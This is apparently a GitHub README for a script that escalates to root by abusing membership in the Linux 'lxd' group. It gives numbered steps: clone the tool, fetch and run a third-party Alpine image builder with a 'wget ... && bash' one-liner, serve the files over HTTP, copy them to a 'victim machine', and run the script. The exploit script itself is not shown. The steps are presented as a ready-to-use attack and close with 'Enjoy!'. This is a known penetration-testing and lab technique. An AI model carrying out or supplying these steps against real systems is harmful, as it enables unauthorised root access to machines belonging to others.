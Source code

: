 # lxd-group-privilege-escalation
Script to elevate your privilege if you are in the group 'lxd'.

## How to execute
1 -> Clone this repository with: ```git clone https://github.com/David132435/lxd-group-privilege-escalation/tree/main```  
2 -> Navigate to the folder: ```cd lxd-group-privilege-escalation```  
3 -> Give the script execute permission: ```chmod +x lxdprivesc.sh```  
4 -> Execute the script and see help: ```./lxdprivesc.sh```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/195d49bb-a0b2-4cb4-9216-186d0f16e5cd)

5 -> Check how to build alpine image: ```./lxdprivesc.sh --howto```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/5c8f46eb-31c1-4b56-8c93-476f5b58ec0f)

6 -> Follow the steps and execute on your local machine: ```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && bash build-alpine```  
7 -> Transfer the script and the alpine image to the victim machine (you can start a http server with ```python3 -m http.server 80```)

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/56a68c4f-d412-4650-81b0-ecc929ced863)

8 -> Give the script execution permission with ```chmod +x lxdprivesc.sh```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/45a00e9f-d4e7-412a-9e8c-a2c5c2167f75)

9 -> Execute the script with ```./lxdprivesc.sh -f alpine.tar.gz```

![image](https://github.com/David132435/lxd-group-privilege-escalation/assets/106914229/4608bbe2-0f9b-4d1e-841d-83e2562245ad)

10 -> Enjoy! 😊
-----------------------------
(Tested on Ubuntu 22.04)
